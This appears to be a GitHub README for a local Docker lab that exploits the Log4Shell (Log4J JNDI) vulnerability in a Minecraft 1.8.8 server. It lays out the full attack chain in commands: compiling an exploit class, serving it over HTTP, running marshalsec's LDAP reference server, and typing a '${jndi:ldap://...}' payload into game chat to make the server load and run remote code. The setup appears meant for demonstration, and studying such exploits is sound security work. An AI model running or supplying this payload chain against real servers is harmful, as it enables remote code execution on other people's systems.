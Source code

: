 # Overview



## Setting up the environment

- Download [Docker](https://www.docker.com/products/docker-desktop/)
- Launch your [Minecraft](https://www.minecraft.net/en-us/download) game and install version 1.8.8 (Installations > New Installations > release 1.8.8).
- Install [Python 3+](https://www.python.org/downloads/)
- Java 8 ([build 181](https://archive.org/download/Java-Archive/Java%20SE%208%20%288u202%20and%20earlier%29/8u181/JDK/))

## Starting up the server on Docker


1. Build the docker image:
```
docker build -t linux-java-python .
```
2. Run the docker image (iterative mode):
```
docker run -it -p 25565:25565 --name mcserver linux-java-python
```

3. The command above starts up a bash on the Docker container. Now you will run this command on the container's bash:

```
java -Xms2G -Xmx2G -jar minecraft_server.1.8.8.jar
```

After the steps above, the minecraft server is now running on the docker container.

## Preparing the Exploit

1. Compile the exploit using Java 8 (build 181):
```
javac8 MinecraftLog4J.java
```

***Above I use javac8 because I have an alias in my machine to point to Java v1.8_u181***

2. Start an HTTP server on current folder to serve the exploit's .class file.
```
python3 -m http.server 8000 
```


## Running the JNDI/LDAP Server

1. Go the marshalsec subfolder (`cd masharlsec`)
2. Run the LDAPRefServer  using 

```
java8 -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#MinecraftLog4J 1389
```



## Connect to the Minecraft Server from the Host Machine

After running the Docker container, you should be able to connect to the Minecraft server from the host machine:

1. Launch the Minecraft game on your host machine (release 1.8.8).
2. Select "Multiplayer"
3. Click "Add Server" and enter the following:
- Server Name: Any name you like.
- Server Address: localhost (or 127.0.0.1).
- Save and click "Join Server" to connect.

4. Once in game, type in chat:

```
${jndi:ldap://host.docker.internal:1389/MinecraftLog4J}
```
